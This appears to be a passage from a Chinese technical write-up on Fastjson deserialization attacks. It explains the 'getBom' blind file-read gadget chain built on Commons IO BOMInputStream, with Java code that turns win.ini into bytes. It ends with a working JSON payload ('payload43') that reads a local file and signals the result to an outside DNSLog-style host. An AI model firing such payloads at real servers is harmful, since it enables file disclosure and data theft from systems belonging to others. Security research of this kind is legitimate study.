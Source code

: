 > 它会拿`win.ini`的内容转成`int`数组，然后拿`ByteOrderMark`里的`bytes`挨个字节遍历去比对，如果遍历过程有比对错误的`getBom`就会返回一个`null`，如果遍历结束，没有比对错误那就会返回一个`ByteOrderMark`对象。所以这里文件读取成功的标志应该是`getBom`返回结果不为`null`。

有点`sql`注入中布尔盲注的味道，哈哈。

附上读取文件内容到字节数组的代码：

```plain
import java.io.FileReader;
import java.io.IOException;

public class str2bytes {
    public static String fileToString(String path) throws IOException {
        FileReader reader = new FileReader(path);
        StringBuilder stringBuilder = new StringBuilder();
        char[] buffer = new char[10];
        int size;
        while ((size = reader.read(buffer)) != -1) {
            stringBuilder.append(buffer, 0, size);
        }
        return stringBuilder.toString();
    }

    public static void main(String[] args) throws IOException {
        String str = fileToString("C:\\Windows\\win.ini");
        byte[] byteArray = str.getBytes("UTF-8");
        boolean first = true;
        for (byte b : byteArray) {
            int intValue = b & 0xFF;
            if (first) {
                System.out.print(intValue);
                first = false;
            } else {
                System.out.print(", " + intValue);
            }
        }
    }
}

//59, 32, 102, 111, 114, 32, 49, 54, 45, 98, 105, 116, 32, 97, 112, 112, 32, 115, 117, 112, 112, 111, 114, 116, 13, 10, 91, 102, 111, 110, 116, 115, 93, 13, 10, 91, 101, 120, 116, 101, 110, 115, 105, 111, 110, 115, 93, 13, 10, 91, 109, 99, 105, 32, 101, 120, 116, 101, 110, 115, 105, 111, 110, 115, 93, 13, 10, 91, 102, 105, 108, 101, 115, 93, 13, 10, 91, 77, 97, 105, 108, 93, 13, 10, 77, 65, 80, 73, 61, 49, 13, 10
```

### 4.2.2 blackhat2021-getBom() 浅蓝师傅改版（几乎适配所有场景）

`payload43`：

```plain
{"abc":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"file:///C:/Users/whoami/Desktop/testtest.txt"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98]}]},"address":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String"{"$ref":"$.abc.BOM[0]"},"start":0,"end":0},"xxx":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"http://testhhh.okdplvnqdu.dgrh3.cn/"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[1]}]},"zzz":{"$ref":"$.xxx.BOM[0]"}}
```
